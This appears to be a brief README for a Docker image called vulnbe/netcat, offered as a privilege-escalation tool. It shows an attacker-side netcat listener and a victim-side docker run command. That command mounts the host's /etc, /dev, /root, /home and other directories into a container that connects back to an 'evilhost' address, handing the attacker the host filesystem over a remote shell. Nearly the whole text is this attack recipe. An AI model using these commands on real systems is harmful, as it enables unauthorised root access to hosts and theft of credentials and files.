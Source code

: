 Docker image for privilege escalation.

On _evilhost_ side:

```
netcat -l -p evilhost_port
```

On _victim_ side:

```
docker run --rm -v /etc/:/etc \
                -v /dev:/dev \
                -v /mnt:/mnt \
                -v /opt:/opt \
                -v /home:/home \
                -v /root:/root \
                vulnbe/netcat evilhost_ip evilhost_port
```
